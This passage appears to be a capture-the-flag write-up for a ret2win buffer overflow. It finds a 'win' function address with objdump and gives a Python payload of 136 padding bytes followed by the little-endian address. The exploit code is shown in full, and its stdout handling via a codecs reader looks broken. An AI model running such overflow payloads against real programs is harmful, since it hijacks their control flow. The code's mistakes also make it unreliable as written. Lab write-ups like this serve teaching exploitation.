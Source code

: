 ### objdump - `win` function's memory address

```bash
objdump -d ./ret | less
/win # 'find' function for 'less'
```

![472a350e40f5c330312c0b0aa17c5326.png](../_resources/472a350e40f5c330312c0b0aa17c5326.png)

Now we can write a quick exploit to replace the return address to `00400646`  
Here is the exploit that I came up with

```python
import sys
import codecs

# The memory address of the function that we want to execute = 00400646 in hexadecimal
# [::-1] reverses the address (little-endian)
win_function_mem_address = b"\x00\x40\x06\x46"[::-1]

# 136 bits causes segmentation fault
payload = b"A" * 136

# Add the target function's memory address to the payload
payload += win_function_mem_address

# Use sys to make sure python properly outputs byte-strings
ascii_stdout = codecs.getreader("ascii")(sys.stdout, errors="strict")

ascii_stdout.write(payload)
```

- After trying this exploit locally it wasn't really working
- So I decided to just get it onto the target machine and try it there
- That's when I was reminded that python3 is not installed in the container
- Initially I wrote this exploit with python3 in mind which you can simply use the following to output the payload in the write format:

```python3
sys.stdout.buffer.write(payload)
```
